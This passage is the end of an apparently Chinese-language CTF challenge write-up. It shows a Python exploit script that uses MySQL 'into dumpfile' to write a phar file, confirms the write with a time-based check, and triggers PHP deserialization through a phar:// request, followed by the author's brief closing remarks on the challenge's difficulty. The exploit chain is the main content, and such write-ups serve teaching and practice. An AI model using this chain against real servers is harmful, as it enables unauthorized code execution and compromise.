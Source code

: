 ```php
    # write phar file
    hex_data = open("test.phar", "rb").read().hex()
    command = "select 0x{} into dumpfile '{}'".format(hex_data, file)
    req('3', command)

    # check file exists
    command = "select if((ISNULL(load_file('{}'))),sleep(2),1)".format(file)
    if req('3', command).elapsed.seconds > 1.5:
        print("file write fail!")
        exit()

    # clean the cache
    req('3',"FLUSH PRIVILEGES")

    # trigger unserialize
    resp = req('35', 'phar://' + file)
    print(resp.text)


if __name__ == '__main__':
    # secure_file_path = get_secure_file_priv()
    secure_file_path = '/tmp/86e9025cfd3453f95db26b327521ff59/'
    exp(secure_file_path)

```

## 总结

题目出完后预估难度中上，但没想到把大家都卡住了… 可能这个题很难一眼看出整个解题的思路，所以放了hint避免选手走歪了。出题不易，耗费了将近一周的时间，只希望大家玩的开心。


